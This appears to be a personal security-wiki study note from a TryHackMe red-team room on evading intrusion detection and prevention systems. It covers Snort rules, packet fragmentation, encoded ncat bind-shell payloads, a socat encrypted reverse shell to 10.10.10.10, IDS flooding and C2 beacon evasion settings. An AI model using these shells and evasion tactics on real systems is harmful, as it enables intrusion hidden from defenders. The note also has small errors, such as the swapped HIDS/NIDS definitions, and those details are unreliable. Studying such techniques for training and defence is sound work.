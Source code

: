 # Evading-IPS-And-IDS
Visit the [[Intrusion-Detection-Systems]] and [[Intrusion-Prevention-Systems]] articles for more

## Definitions

Acronym | Full Name
--- | --- 
IPS | Intrusion Prevention System
IDS  |Intrusion Detection System
HIDS |  Network-based-IDS
NIDS |  Host-based-IDS

Network Traffic and Host activities is either Benign or Malicious traffic.

Method of Detection | Description
--- | ---
Signature-based | Signatures of known malicious traffic fed into IDS.
Anomaly/Behaviour-based |  Regular traffic model, for IDS to detect anomalies.
Policy-based |  Detect based on policy violations

## IDS/IPS each have rule syntax:
For example [[Snort]] uses:

Rule Header | Rule options 
--- | ---
Action		|	alert, log, pass, drop and reject
Protocol	| 	TCP, UDP, ICMP or IP
Source IP/Port  | IP/mask any # = anything but from IP/mask range
Direction of Flow |	sourceTOdestination = '->'; '<>' birectional 
Destination IP/Port |Similar to Source IP/Port
Some more specifics | `flow:established` (full three handsake stream), `content:"<TYPE>"` 

Snort rule that detects the term `ncat` in the payload of the traffic exchanged with our webserver to learn how people exploit this vulnerability would end up like:
``alert tcp any any <> any 80 (msg: "Netcat Exploitation"; flow:established,to_server; content:"POST"; nocase; http_method; content:"ncat"; nocase; sid:1000032; rev:1;)


## Evasion via protocol manipulation includes:

- Use different protocol
- Source Port
- Session Splicing
- Invalid Packets

#### Relying on a different protocol


IF TCP|UDP THEN use UDP|TCP
	ncat -ulvnp PORT_NUM # u for udp listener

IF web-browsing-allowed THEN:
	(protected-host can connect via port 80 and 443, unless local proxy is used)

	Use a Google web hosting to concelal malicious site
IF IPS blocks DNS-queries && HTTP requests THEN:
	(local machines (cannot query external DNS servers)(can query local DNS server)&& enforces HTTP communications)	
	HTTPS can tunnel traffic to evade IPS 

#### Manipulating (Source) TCP/UDP port

If you all your traffic coming from an established [[Network-Protocols]] port then the recieving end will interpret just by port number, allowing for evasion. Without deep packet inspection, the port numbers are the primary indicator of the service used, unless the security solution can analyze the data carried by the TCP segments.


#### Session Splicing

IPv4, IP packet fragmentation or session splicing - simiply breaking and or reordering packets of data up. The assumption regarding this strategies potental evasiveneess is that if traffic is in smaller packets, you will avoid matching to any of the IDS signatures. Dividing your payload among multiple packets and potential reordering them and the reordering it back to its orginal linear order will evade IDS parsing for particular stream of bytes. Unless the IDS reassembles the packets, the rule won’t be triggered.

#### Sending Invalid Packets

Sending invalid packets the response of systems is unclear, therefore experimenting to with invalid pakects an IDS/IPS might process it, while the target system might ignore it.

Refer to [[Nmap-Cheatsheet]] for experimenting with invalid packets to prove the existence of IDS/IPS.

Suppose you want to force all your packets to be fragmented into specific sizes: see [monkey](https://www.monkey.org/~dugsong/fragroute/)

#### Custom packets with Custom fields:
`hping3 --help`

## Evasion via Payload Manipulation

####  Obfuscating and encoding the payload
```bash
ncat -lvnp 1234 -e /bin/bash 	=	bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA== 	#base64
ncat -lvnp 1234 -e /bin/bash	=	ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbas		#urlencode
ncat -lvnp 1234 -e /bin/bash 	=       # escape unicode, with cyberchef

`\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`
```

#### Encrypting the communication channel
Create Privacy Enhanced Mail(PEM), see [[Socat-Cheatsheet]]
```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

#   req indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
#   -x509 specifies that we want an X.509 certificate
#   -newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as -newkey rsa:2048.)
#   -days 365 shows that the validity of our certificate will be one year
#   -subj sets data, such as organization and country, via the command-line.
#   -nodes simplifies our command and does not encrypt the private key
#   -keyout PRIVATE_KEY specifies the filename where we want to save our private key
#   -out CERTIFICATE specifies the filename to which we want to write the certificate request


cat reverse.key reverse.crt > reverse.pem

# listener that return execution output
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

#    -d -d provides some debugging data (fatal, error, warning, and notice messages)
#    OPENSSL-LISTEN:PORT_NUM indicates that the connection will be encrypted using OPENSSL
#    cert=PEM_FILE provides the PEM file (certificate and private key) to establish the encrypted connection
#    verify=0 disables checking peer’s certificate
#    fork creates a sub-process to handle each new connection.

# socat:	
# On Attack box:
socat -d -d TCP-LISTEN:4443,fork STDOUT
# On target machine:
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

#### Modifying the shellcode

## Route Manipulation

For route manipulation see [[Proxies]] and [[Port-Redirection-And-Tunnelling]]

With examples from the THM Room use: [[Nmap-Cheatsheet]]

Relying on source routing with `--ip-options "L $IP $IP $IP"` would specify loose routing - scan through any in the array, whereas strict routing with `"S"` as the 0th index of the string would strict hop from first `$IP` to the last. Using proxy servers with `--proxies proto://host:port, proto://host:port`, valid protocols are HTTP and SOCKS4 - authenication is not supported.


## Evasion via Tactical DoS

IDS/IPS requires a high processing power to managing and regulate rules grows and tthe network traffic volume increase, and with spefically IDS logging of said traffic and matching of rule signatures.
1. Create a huge amount of benign traffic that would simply overload the processing capacity of the IDS/IPS.
1. Create a massive amount of not-malicious traffic that would still make it to the logs, congesting the communication channel with the logging server or exceed its disk writing capacity.

## C2 Evasive Tactices
See [[Introduction-To-Comand-And-Control-Frameworks]] for more information:

1. User Agent - Innocuous configuration rather than default
2. Sleep time - control callback interval between beacon checkins
3. Jitter - Pseudo-Randomness of sleep time THM:*"A jitter of 30% results in a sleep time of ±30% to further evade detection."*
4. SSL Certificate - Authenicity equals success
5. DNS Beacon - If exfiltrating data via DNS - configure DNS server and the hostname in the DNS query

[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)


## Next-Gen Security

Next-Generation Network IPS (NGNIPS) has the following five characteristics according to [Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):

1.  Standard first-generation IPS capabilities: A next-generation network IPS should achieve what a traditional network IPS can do.
2.  Application awareness and full-stack visibility: Identify traffic from various applications and enforce the network security policy. An NGNIPS must be able to understand up to the application layer.
3.  Context-awareness: Use information from sources outside of the IPS to aid in blocking decisions.
4.  Content awareness: Able to inspect and classify files, such as executable programs and documents, in inbound and outbound traffic.
5.  Agile engine: Support upgrade paths to benefit from new information feeds.


## References
[THM Network Evasion Room](https://tryhackme.com/room/redteamnetsec)
[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)
[monkey](https://www.monkey.org/~dugsong/fragroute/)
[Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):